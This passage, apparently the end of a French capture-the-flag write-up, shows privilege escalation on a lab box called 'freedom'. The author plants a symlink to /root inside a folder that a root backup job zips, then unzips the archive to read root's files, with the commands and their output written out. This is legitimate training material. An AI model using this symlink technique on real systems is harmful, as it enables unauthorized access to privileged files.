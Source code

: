 Il s'avère que l'utilisateur `root` exécute la première commande pour compresser mon fichier ODS décompressé par l'application, et ensuite il lui donne les `droits` dans le dossier `/backup`, cela se fait en 3 minutes selon le `sleep`, donc si je met un lien symbolique du dossier /root dans le dossier `/office/odt/4158`, j'aurais l'opportunité de lire le dossier `/root`.

    john@freedom:/office/odt/2372$ ls
    Basic            META-INF    content.xml   meta.xml  settings.xml  test.ods
    Configurations2  Thumbnails  manifest.rdf  mimetype  styles.xml
    john@freedom:/office/odt/2372$ ln -s /root/ .
    
Nous avons juste à attendre trois minutes, et ensuite nous aurons juste à décompresser le fichier `2372.zip` et de lire le dossier `/root`.

    john@freedom:/backup$ ls /backup/
    2372.zip
    john@freedom:/backup$ cp /backup/2372.zip /tmp
    
Je vais le transporter dans le dossier `/backup`, sinon il risquera de le supprimer après 3 minutes, et je vais le décompresser avec `unzip`.

    john@freedom:/tmp$ unzip 2372.zip                                                                                                                           
    Archive:  2372.zip                                                                                                                                          
       creating: office/odt/2372/                                                                                                                               
      inflating: office/odt/2372/content.xml                                                                                                                    
      inflating: office/odt/2372/manifest.rdf                                                                                                                   
       creating: office/odt/2372/META-INF/                                                                                                                      
      inflating: office/odt/2372/META-INF/manifest.xml                                                                                                          
      inflating: office/odt/2372/styles.xml                                                                                                                     
       creating: office/odt/2372/Thumbnails/                                                                                                                    
      inflating: office/odt/2372/Thumbnails/thumbnail.png                                                                                                       
      inflating: office/odt/2372/meta.xml                                                                                                                       
       creating: office/odt/2372/root/                                                                                                                          
       creating: office/odt/2372/root/.local/                                                                                                                   
       creating: office/odt/2372/root/.local/share/                                                                                                             
       creating: office/odt/2372/root/.local/share/nano/
       [...SNIP...]

Et nous pouvons lire le dossier /root avec succès. 

    john@freedom:/tmp/office/odt/2372/root$ cd /tmp/office/odt/2372/root/
    john@freedom:/tmp/office/odt/2372/root$ ls 
    Desktop    Downloads  Pictures  Templates  root.sh
    Documents  Music      Public    Videos     root.txt
    john@freedom:/tmp/office/odt/2372/root$ cat root.txt |wc -c
    33

# Conclusion

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. J’ai essayer de vous expliquez le fonctionnement de cette boxe, n’hésitez pas à me contacter sur les réseaux sociaux, je suis toujours disponible pour vous répondre.
